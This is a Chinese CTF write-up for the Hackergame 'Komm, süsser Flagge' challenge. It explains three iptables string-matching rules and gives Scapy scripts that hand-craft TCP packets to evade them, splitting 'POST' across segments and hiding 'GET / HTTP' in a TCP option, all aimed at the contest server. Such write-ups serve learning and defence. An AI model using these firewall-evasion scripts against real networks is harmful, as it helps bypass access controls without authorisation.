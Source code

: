 # Komm, süsser Flagge

## 0x00 First sight

看到这样的防火墙规则

```bash
*filter
:INPUT ACCEPT [0:0]
:OUTPUT ACCEPT [0:0]
:FORWARD DROP [0:0]
:myTCP-1 - [0:0]
:myTCP-2 - [0:0]
:myTCP-3 - [0:0]
-A INPUT -p tcp --dport 18080 -j myTCP-1
-A INPUT -p tcp --dport 18081 -j myTCP-2
-A INPUT -p tcp --dport 18082 -j myTCP-3

-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset

-A myTCP-2 -p tcp -m u32 --u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50" -j REJECT --reject-with tcp-reset

-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
COMMIT
```

简单看上去，就是三个规则，其中第二个规则要转转脑子，大概是这样：

- `myTCP-1` 需要你的POST包中不包含`POST`字符串，不然你就完蛋了
- `myTCP-2` 需要你POST包的第一个Payload不是`P`，（一些位运算，可以去看看TCP包结构，这里不赘述了）不然你就完蛋了
- `myTCP-3` 需要你GET包的前50个字符包含`GET / HTTP`字符串，不然你就完蛋了

## 0x01 Solution

发包，用网线鲨鱼(wireshark)抓包看结果。

### 0x0100 myTCP-1 & myTCP-2

什么？我的POST里面不能有POST？我天，这简直太酷了

由于这是个防火墙规则，不是WAF规则，这就变得十分好办了。咱只要手搓TCP包就可以了，
NGINX最终将会看到内核网络栈处理后的包内容。

我们知道，一个TCP连接是这样：

- 握手，SYN -> SYN/ACK -> ACK
- 发送数据，PSH -> ACK
- 断开连接，FIN -> ACK -> FIN/ACK -> ACK

防火墙会对每个包进行判断。这里我们的数据只会在PSH中推送到对方，这里只需要对PSH动手脚。

什么？POST请求不能有POST？那我有P和OST怎么样

rt，把POST拆了就行了。

PoC像这样：

```python
# Solution for 1 and 2 (dport 18081 and 18082)
# Need to bypass kernel's RST packet
# Like this iptables -A OUTPUT -p tcp --tcp-flags RST RST -s <src> -j DROP
from scapy.all import *
import time
import random

# Ethernet Header
eth = Ether(dst='00:50:56:e0:be:cb')

# IP Header
ip = IP(dst='202.38.93.111')

# send_port = RandShort()
send_port = random.randint(1024, 65535)

# TCP Header
tcp = TCP(sport=send_port, dport=18081, flags="S", window=64240)

# Syn packet
syn = eth / ip / tcp
syn_ack = srp1(syn)

# TCP Header for Acknowledgment packet
tcp.flags = "A"
tcp.seq = syn_ack.ack
tcp.ack = syn_ack.seq + 1

# Acknowledgment packet
ack = eth / ip / tcp
sendp(ack)

# TCP Header for Push Acknowledgment packet
tcp.flags = "PA"

# Split POST request
data1 = "P"
# tcp.seq += 1  # Increment sequence number
push_ack1 = eth / ip / tcp / data1
sendp(push_ack1)

data2 = "OST / HTTP/1.1\r\nHost: 202.38.93.111:18081\r\nUser-Agent: curl/8.3.0\r\nAccept: */*\r\nContent-Length: 100\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nTOKENTOKEN我是TOKEN我不是TOKEN还有谁是TOKEN"
tcp.seq += len(data1)  # Increment sequence number
push_ack2 = eth / ip / tcp / data2
sendp(push_ack2)
```

这样你就能做好第一问了。

对于第二问，没错，这可以做第二问。

> 需要你POST包的第一个Payload不是`P`，（一些位运算，可以去看看TCP包结构，这里不赘述了）不然你就完蛋了

什么？难道单独发的 P 不是 P 了嘛？
其实这里是因为 u32 读东西是一下读 4 byte，而 P 只有 1 byte，所以就不会匹配到。具体可以去阅读 iptables 的 manpage。
这是非预期解，但是我就是把第一问的PoC放到第二问跑了一下，发现居然出了。

### 0x0101 myTCP-3

这题说，你要在POST包的前50字节内包含`GET / HTTP`。
你可以塞在TCPOptions里面。这里我塞在 SAckOK

对了，这里我没放eth，因为加了eth我的payload被挤到外面去了。
我用了他们提供的OpenVPN，可以成功发包。
PoC是由前一问的小改了一下。

```python
# Solution for 3
# Need to bypass kernel's RST packet
# Like this iptables -A OUTPUT -p tcp --tcp-flags RST RST -s <src> -j DROP
from scapy.all import *
import time
import random

# IP Header
ip = IP(dst='192.168.23.1')

# send_port = RandShort()
send_port = random.randint(1024, 65535)

# TCP Header
tcp = TCP(sport=send_port, dport=18081, flags="S", window=64240, options=[('SAckOK', 'GET / HTTP')])

# Syn packet
syn = ip / tcp
syn_ack = srp1(syn)

# TCP Header for Acknowledgment packet
tcp.flags = "A"
tcp.seq = syn_ack.ack
tcp.ack = syn_ack.seq + 1

# Acknowledgment packet
ack = ip / tcp
sendp(ack)

# TCP Header for Push Acknowledgment packet
tcp.flags = "PA"

# Split POST request
data1 = "P"
# tcp.seq += 1  # Increment sequence number
push_ack1 = ip / tcp / data1
sendp(push_ack1)

data2 = "OST / HTTP/1.1\r\nHost: 202.38.93.111:18081\r\nUser-Agent: curl/8.3.0\r\nAccept: */*\r\nContent-Length: 100\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nTOKENTOKEN我是TOKEN我不是TOKEN还有谁是TOKEN"
tcp.seq += len(data1)  # Increment sequence number
push_ack2 = ip / tcp / data2
sendp(push_ack2)
```

应该是可以的。[官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/Komm%2C%20s%C3%BCsser%20Flagge)说，这东西可能因系统而异，不过他用c写的，不太懂，我贴这算了：

> 出题人在测试的时候发现一个小问题，取决于内核的编译参数，setsockopt 可能会以不同的方式验证参数合法性。例如，Ubuntu 20.04 和 22.04 下，只有 option 7 / 68 / 148 可以通过 setsockopt，但是换到 Debian 下，这三个 option 都不能正常设置（invalid argument），而除此之外的几乎所有 option 数值都可以正常设置。所以这里你需要根据自己的发行版尝试不同的 option 数值。本文末尾提供的 sol3.c 包含了一个循环，尝试所有的 option。

## 0x02 What

这题主要是看你能不能手搓TCP包。
